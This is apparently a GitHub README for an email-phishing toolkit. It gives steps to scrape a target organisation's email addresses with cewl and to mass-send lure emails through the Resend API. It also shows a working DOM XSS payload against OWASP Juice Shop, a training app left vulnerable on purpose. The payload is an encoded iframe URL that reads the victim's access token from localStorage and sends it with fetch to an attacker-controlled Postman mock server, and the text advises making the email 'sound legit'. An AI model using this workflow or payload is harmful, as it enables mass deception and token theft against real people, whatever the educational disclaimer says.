


# Email Phishing using OSINT

Email phishing is one of the most common type of attacks. This repo outlines the steps that can be taken to perform such an attack on scale.


## Disclaimer:
This guideline is purely for educational purposes. Author isn't resposible for any misuse, or any harm. Any actions and or activities related to this guideline is solely your responsibility. The misuse of this toolkit can result in criminal charges brought against the persons in question. The contributors will not be held responsible in the event any criminal charges be brought against any individuals misusing this toolkit to break the law.

## Steps:
1) Create a kali linux machine
2) Install https://www.kali.org/tools/cewl/
3) Install node v20.9.0
4) Clone https://github.com/ZeeshanZulfiqarAli/Phishing-Automator
5) Open terminal and navigate to this repo.
6) Use cewl to scrape emails on the victim organization's webpage. Command should look like:
`cewl -d 2 -e https://www.<target>.app --email_file 'emails.txt' `
7) Alternatively, you can use another program to gather email addresses.
The program in (4) expects emails in a txt file with one email address per line:
```
email1@test.com
email2@test.com
```
8) Write a html template for email content. You can use one from demo/template.html to get started. Look at the html template section for more details.
9) Create an account on [Resend](https://resend.com/). And get the API key.
10) Run the following command to send the emails to the victims automatically:
`node index.js -k <resend_key> -f ./emails.txt -sb <email_subject> -s <sender_email> -h ./demo/template.html`

## Performing vulnurability analysis of the victim's website
We're aiming our attack on getting victim's access token on [OWASP Juice Shop](https://juice-shop.herokuapp.com/). This website is intentionally left vulnerable. 

Inspecting the application using chrome dev tools showed us that the access token is stored in the local storage. This is great news for us as this indicates that it can be stolen if we can run javascript on the victim's machine.

We use [Zap](https://www.zaproxy.org/download/) to perform analysis on juice shop. We the following alerts


The missing CSP Header looks really promising. Upon further investigation we found that the search query is set as a query parameter. The query parameter is directly inserted into the DOM which makes it possible to insert malicious code. We did exactly that and created a URL that:
1) Inserts a iframe
2) Provided javascript in the src tag of the iframe using the syntax `<iframe src="javascript:console.log('i can run js')">`
3) We wrote a script that:
    - Reads token from local storage.
    - Makes API call to a mock server we set up using postman ([more info here](https://learning.postman.com/docs/designing-and-developing-your-api/mocking-data/mock-with-api/)). The api call looks like this:
`https://3b233c9b-8705-4517-b3d8-72e8183c0eg1.mock.pstmn.io?token=asd`
    - After making the API call, removes the query parameter
    - Removes the iframe
4) Minified the javascript code using an online tool https://www.minifier.org/
5) Inserted the code in inframe as mentioned in step 2

This is how the final url looks like:
```
https://juice-shop.herokuapp.com/#/search?q=%3Ciframe%20src=%22javascript:function%20replaceState()%7Bwindow.parent.history.replaceState(%7B%7D,document.title,window.parent.location.href.split('?')%5B0%5D)%7D%0Afunction%20remoteEl()%7Bwindow.parent.document.querySelector('iframe').remove()%7D%0Afetch('https://3b233c9b-8705-4517-b3d8-72e8183c0ef6.mock.pstmn.io/token='.concat(localStorage.getItem('token'))).then((r)=%3E%7BreplaceState();remoteEl()%7D).catch((e)=%3E%7BreplaceState();remoteEl()%7D)%22%3E
```

## Writing email template
We want our email to sound legit and provide the user a valid reason to click the link. We asked them to schedule a meeting by clicking on a link but embeded that with the malicious URL we designed in the previous part.

## Viewing results
As soon as a user clicks on the malicious email, an API reqeust is sent to our postman mock server. We can monitor that and see if we get any requests, which will provide us with the token.

